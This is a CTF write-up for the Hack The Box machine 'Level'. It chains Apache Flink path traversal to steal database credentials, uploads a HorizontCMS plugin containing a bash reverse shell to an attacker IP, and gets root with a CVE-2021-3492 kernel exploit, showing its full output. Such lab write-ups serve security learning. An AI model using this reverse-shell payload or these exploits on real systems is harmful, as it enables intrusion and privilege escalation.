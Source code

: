 # Level

```
Nmap scan report for level.htb (10.129.95.161)
Host is up (0.40s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE          VERSION
80/tcp   open  ssl/http?
8081/tcp open  blackice-icecap?
```

Apache Flink on port 8081 is vulnerable to path traversal. Metasploit has a module for it. We can read the .env file at the webroot:
```
msf6 auxiliary(scanner/http/apache_flink_jobmanager_traversal) > run

[*] Downloading /var/www/html/.env ...
[+] Downloaded /var/www/html/.env (125 bytes)
[+] File /var/www/html/.env saved in: /home/wil/.msf4/loot/20210727012858_default_10.129.173.192_apache.flink.job_666566.txt                                                                                        
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


Tue Jul 27 01:28:42 wil@pwn:~/htb/business_ctf/boxes/level$ cat /home/wil/.msf4/loot/20210727012858_default_10.129.173.192_apache.flink.job_666566.txt                                                              
DB_HOST=127.0.0.1
DB_CONNECTION=mysql
DB_USERNAME=hcms
DB_PASSWORD=N>2sM4^R_j>g)cfe
DB_DATABASE=hcms
HCMS_ADMIN_PREFIX=admin
```
These credentials are valid on port 80 on HorizontCMS:
`admin:N>2sM4^R_j>g)cfe`

![Successfully login as admin](img/horrizon_admin_login.png "Successfully login as admin")

With admin privileges we can add a malicous plugin, here we used a modified [GoogleMaps](https://github.com/ttimot24/GoogleMaps) plugin with a reverse shell: 

```bash
Tue Jul 27 01:34:52 wil@pwn:~/htb/business_ctf/boxes/level/plugin/GoogleMaps/resources/lang/en$ cat messages.php 
<?php 

$shell = exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.27/9000 0>&1'");

return [
        'successfully_added_location' => $shell,//'Location added succesfully!',
        'successfully_deleted_location' => 'Location deleted succesfully!',
        'successfully_set_center' => 'Location is successfully set as map center!'
];
```
Install the plugin in the following menus: `Themes & Apps / Plugin / Upload new plugin`
Install and activate it
Click on `Google Maps (top menu) / Add location` / Set arbitrary content in fields then save.

```bash
Tue Jul 27 01:36:41 wil@pwn:~/htb/business_ctf/boxes/level$ nc -nvlp 9000
Listening on [0.0.0.0] (family 2, port 9000)
Connection from 10.129.173.192 60640 received!
bash: cannot set terminal process group (1038): Inappropriate ioctl for device
bash: no job control in this shell
albert@level:/var/www/html$
albert@level:/home/albert$ cat user.txt
HTB{0utd4t3d_cms_1s_n0_g00d}
```

By shorty searching for privilege escalation paths, we can notice the operating system is vulnerable to two consecutive LPE (Local Privilege Escalation) vulnerabilities:

* A double free vulnerability in Ubuntu shiftfs driver ([CVE-2021-3492](https://www.synacktiv.com/publications/exploitation-of-a-double-free-vulnerability-in-ubuntu-shiftfs-driver-cve-2021-3492.html)), found by our team mate VDehors and submitted to [Pwn2Own Vancouver 2021](https://twitter.com/thezdi/status/1380233495851712512).
* Ubuntu OverlayFS LPE ([CVE-2021-3493](https://github.com/briskets/CVE-2021-3493)).
```
albert@level$ uname -a
Linux level 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
      
albert@level$  cat /etc/os-release 
NAME="Ubuntu"
VERSION="20.04.1 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.1 LTS"
VERSION_ID="20.04"
[...]
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal

albert@level$ /sbin/sysctl -n 'kernel.unprivileged_userns_clone'
1
```
As the [exploit](https://github.com/synacktiv/CVE-2021-3492/tree/master/exploit) written by Vdehors for his vulnerability CVE-2021-3492 was only targetting Linux kernel versions 5.8, he slightly modified his exploit in order to also support Linux kernel versions 5.4. In the initial exploit, the synchronization between kernel and userspace was done using a new feature of userfaultfd called write-protect. This feature is not present in kernel versions 5.4 so this part of the exploit has been replaced with the legacy userfaultfd page faults. To be able to preempt the kernel for each `copy_to_user()`, the userland structure is placed on two different pages and these pages are untouched to trigger the *userfaultfd* wakeup.

Finally, we can use his exploit to solve the box:
```
albert@level:/tmp/foo$ wget "10.10.14.65:8080/exploit" 
albert@level:/tmp/foo$ mkdir symbols
albert@level:/tmp/foo/$ wget "10.10.14.65:8080/System.map-5.4.0-48-generic" -O symbols/System.map-5.4.0-48-generic
albert@level:/tmp/foo$ chmod +x exploit 
albert@level:/tmp/foo$ ./exploit 
################################################
#                EXPLOIT SETUP                 #
################################################
Kernel version 5.4.0-48-generic
0xffffffff81085460 set_memory_x
0xffffffff810aba30 proc_doulongvec_minmax
0xffffffff810cdb40 commit_creds
0xffffffff810cdec0 prepare_kernel_cred
0xffffffff819f7dc0 devinet_sysctl_forward
0xffffffff82654040 debug_table
Pinning on CPU 0
Creating new USERNS
Configuring UID/GID map for user 1000/1000
Creating new MOUNTNS
Mounting tmpfs on d1
Mounting shiftfs on d2
Creating shiftfs file
Shiftfs FD : 4
Remaped 1 page at 0x100000
Remaped 1 page at 0x101000
Allocated 2 pages at 0x100000 (ret:0x7f9a406d1740)
Allocated 2 storage pages at 0x55874bb1b000 (ret:0)
UFFD FD: 5
Registering new mapping watch = 0
Registering new mapping watch = 0
################################################
#           PRIMITIVES STABILISATION           #
################################################
Triggering the vulnerability...
UFFD poll returned
WP Fault handling 1
Recreate mapping for page 1
Backuping page data 1
Unmap page 1
Remaped 1 page at 0x101000
Registering new mapping watch = 0
Unblock page 0
[...]
Entering NET namespace...
Namespace NET fd = 6
Setns returned 0
Leaking payload address...
Table is at ffff8ac12fa1c008
Dumping global sysctl...
global_sysctl_victim[0] = 0xffffffff87b5f238
[...]
global_sysctl_victim[7] = 0x0000000000000000
Patching global sysctl...
global_sysctl_victim[0] = 0xffffffff87b5f238
[...]
global_sysctl_victim[7] = 0x0000000000000000
################################################
#                 SYSTEM REPAIR                #
################################################
Checking R/W primitives
Current header is 000000000000ffff
Restored header is ffff8ac136194000
Restoring global sysctl...
################################################
#              SHELLCODE INJECTION             #
################################################
Setting buffer to RWX
Writting shellcode at ffff8ac12fa1cf08
Writting prepare_kernel_cred at ffff8ac12fa1cef8
Writting commit_cred at ffff8ac12fa1cef0
Executing shellcode...
################################################
#                 YOU ARE ROOT                 #
################################################
root@level:/tmp/foo# id
uid=0(root) gid=0(root) groups=0(root)

root@level:/tmp/foo# cat /root/root.txt 
HTB{br0k3n_st0r4g3}
```
